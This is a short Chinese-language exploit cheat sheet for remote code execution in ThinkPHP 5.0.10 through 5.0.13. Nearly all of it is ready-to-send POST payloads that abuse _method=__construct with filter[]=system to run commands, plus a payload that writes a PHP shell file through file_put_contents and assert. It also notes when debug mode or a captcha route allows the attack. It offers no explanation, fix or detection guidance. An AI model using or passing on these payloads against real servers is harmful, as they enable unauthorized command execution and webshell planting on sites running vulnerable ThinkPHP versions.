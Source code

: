 debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.10
从5.0.10开始默认debug=false，debug无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.11
默认debug=false，debug无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.12
默认debug=false，debug无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.13
默认debug=false，需要开启debug 命令执行
5.0.13版本之后需要开启debug才能rce
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
s=whoami&_method=__construct&method=&filter[]=system
```
有captcha路由时无需debug=true